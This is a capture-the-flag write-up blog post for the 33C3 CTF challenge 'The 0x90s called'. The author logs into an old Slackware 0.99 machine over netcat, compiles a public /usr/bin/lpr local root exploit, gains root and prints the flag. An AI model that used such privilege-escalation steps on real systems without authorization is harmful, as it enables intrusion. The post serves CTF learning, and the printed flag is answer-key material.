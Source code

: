 ```yaml
---
title: '[33C3 CTF] The 0x90s called Writeup'
author: Megabeets
type: post
date: 2016-12-29T20:00:28+00:00
url: /33c3-ctf-0x90s-called-writeup/
sharing_disabled:
  - 1
categories:
  - 33C3 CTF
  - Writeups
tags:
  - 33C3
  - CTF
  - PWN
  - Writeups

---
```

### **Description:**

> **The 0x90s called &#8211; PWN**
> 
> The 0x90s called, they want their vulns back!  
> [Pwn this and get the flag.][1] Who would&#8217;ve thought?  
> If you want to try it locally first, [check this out][2].

This challenge was pretty simple and obvious. We are given with a website that is requesting a &#8216;proof of work&#8217; from us to reduce the load on their infrastructure. We need to press start and then we get a port to which we can connect using `netcat`, username and password. We connect to the server and search for the flag.

```sh
Megabeets:~# nc 78.46.224.70 2323

Welcome to Linux 0.99pl12.

slack login: challenge
challenge
Password:challenge

Linux 0.99pl12. (Posix).
No mail.
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ls -la / | grep flag
-r--------   1 root     root           36 Dec 27  1916 flag.txt
slack:~$
```


Look at the highlighted rows. We can see that we are in _Slack Linux 0.99pl12_ machine, that _flag.txt_ is on the root folder and that only _root_ can read it. Before trying anything special or complicated, lets search online for known exploit to this version.

[<img src="./90s_called_1.png" />][3]Oh, this was easy! There&#8217;s a known exploit available on _Github_.



Lets run it to see if it works, and if so read the flag.

```sh
slack:~$ gcc exploit.c -o exploit
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ./exploit
[ Slackware linux 1.01 /usr/bin/lpr local root exploit
# id
uid=405(challenge) gid=1(other) euid=0(root) egid=18(lp)
# cat /flag.txt
33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3
```


&nbsp;

It worked just fine (thanks [prdelka][4] for the exploit)! We got _root_ permissions and were able to read the flag.  
**Flag**: _33C3\_Th3\_0x90s\_w3r3\_pre3tty_4w3s0m3_

I’ll be happy to read in the comments how the challenge was for you.

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="./megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: http://78.46.224.70:8080/
 [2]: https://33c3ctf.ccc../qemu-xmas-slackware.tar.xz
 [3]: http://www.megabeets.n./90s_called_1.png
 [4]: https://github.com/HackerFantastic/Public/blob/master/exploits/prdelka-vs-GNU-lpr.c
